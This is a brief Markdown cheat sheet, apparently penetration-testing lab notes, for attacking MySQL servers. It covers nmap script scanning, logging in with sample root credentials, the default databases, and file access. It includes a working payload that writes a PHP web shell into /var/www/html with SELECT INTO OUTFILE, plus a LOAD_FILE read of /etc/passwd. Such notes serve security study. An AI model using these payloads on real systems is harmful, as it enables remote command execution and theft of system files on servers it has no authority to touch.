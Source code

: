 # [[nmap]]
```shell
sudo nmap 10.129.14.128 -sV -sC -p3306 --script mysql*
```

# Client:
##### Linux
```shell
mysql -u root -pP4SSw0rd -h 10.129.14.128

show databases;

select version();

use mysql; show tables;
```
##### Windows
```cmd
mysql.exe -u username -pPassword123 -h 10.129.20.13
```

##### GUI
Download: https://github.com/dbeaver/dbeaver/releases
```bash
sudo dpkg -i dbeaver-<version>.deb
dbeaver
```

# Default databases
- `mysql` - is the system database that contains tables that store information required by the MySQL server
- `information_schema` - provides access to database metadata
- `performance_schema` - is a feature for monitoring MySQL Server execution at a low level
- `sys` - a set of objects that helps DBAs and developers interpret data collected by the Performance Schema

# Read/Write Local Files
```sql
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```
#### Check privileges
```sql
show variables like "secure_file_priv";

+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+

1 row in set (0.005 sec)
```
#### Read files
```sql
select LOAD_FILE("/etc/passwd");
```

